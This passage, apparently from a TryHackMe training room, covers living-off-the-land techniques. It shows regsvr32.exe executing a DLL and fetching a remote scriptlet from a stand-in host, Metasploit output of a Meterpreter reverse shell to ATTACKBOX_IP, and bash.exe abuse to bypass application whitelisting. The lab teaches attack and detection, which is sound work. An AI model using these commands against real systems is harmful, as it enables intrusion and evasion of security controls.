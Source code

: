 On the victim machine, once the file DLL file is downloaded, we execute it using regsvr32.exe  as follows,

Command Prompt

```shell-session
C:\Users\thm> c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
or
C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

With the second option, which is a more advanced command, we instruct the regsvr32.exe to run:

- /s: in silent mode (without showing messages)
- /n: to not call the DLL register server
- /i:: to use another server since we used /n
- /u: to run with unregister method

On the attacking machine, we should receive a reverse shell.

Terminal

```shell-session
msf6 > exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 
[*] Sending stage (175174 bytes) to 10.10.159.197 
[*] Meterpreter session 1 opened (ATTACKBOX_IP:443 -> 10.10.159.197:52845 ) at 2022-01-20 05:51:31 -0600
```

Note if we wanted to create a 64-bit DLL version, we need to specify it in the msfvenom command and run it from the victim machine using the 64bits version of regsvr32.exe at C:\Windows\SysWOW64\regsvr32.exe.

### Bourne Again Shell (Bash)

In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019. This feature is known as Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. WSL is a Hyper-V virtualized Linux distribution that runs on the operating system, supporting a subset of the Linux kernel and system calls. This feature is an addon that a user can install and interact with a Linux distribution. As part of WSL, bash.exe is a Microsoft tool for interacting with the Linux environment. 

People found ways to execute payloads and bypass the Windows application whitelisting since it is a Microsoft signed binary. By executing bash.exe -c "path-to-payload", we can execute any unsigned payload. ATT&CK called this an **Indirect Command execution** technique where attackers abuse the Windows tools utility to obtain command executions. For more information about this technique, you may visit the [T1202](https://attack.mitre.org/techniques/T1202/) ATT&CK website.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0468b54d6174a620d130adb1edacc1c.png)

Note that you need to enable and install the Windows Subsystem for Linux in Windows 10 to use the bash.exe binary. Also, the attached VM does not have the Linux Subsystem enabled due to nested virtualization restrictions. 
